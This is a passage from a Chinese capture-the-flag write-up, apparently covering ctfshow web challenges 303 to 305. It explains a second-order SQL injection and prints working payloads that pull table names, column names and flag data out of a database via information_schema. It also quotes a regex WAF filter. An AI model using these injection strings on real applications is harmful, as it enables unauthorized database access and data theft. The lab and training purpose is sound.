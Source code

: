 ![image-20230522210704592](https://raw.githubusercontent.com/leekosss/photoBed/master/202305222107664.png)

然后会在：`dpt.php`回显出来

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202305222107133.png" alt="image-20230522210736092" style="zoom: 67%;" />

典型的二次注入

我们这样注入：查询库名

![image-20230522211054524](https://raw.githubusercontent.com/leekosss/photoBed/master/202305222110558.png)

查表名：

```sql
',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())#1
```

![image-20230522211306461](https://raw.githubusercontent.com/leekosss/photoBed/master/202305222113501.png)

查列名：

```sql
',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_fl9g')#1
```

`flag`

查数据：

```sql
',sds_address=(select flag from sds_fl9g)#
```





### web304

> 增加了全局waf 
>
> ```php
> function sds_waf($str){ 
> 	return preg_match('/[0-9]|[a-z]|-/i', $str); 
> 	} 
> ```
>
> 

同上



### web305

这一题给插入的数据使用了waf，不能走sql注入了
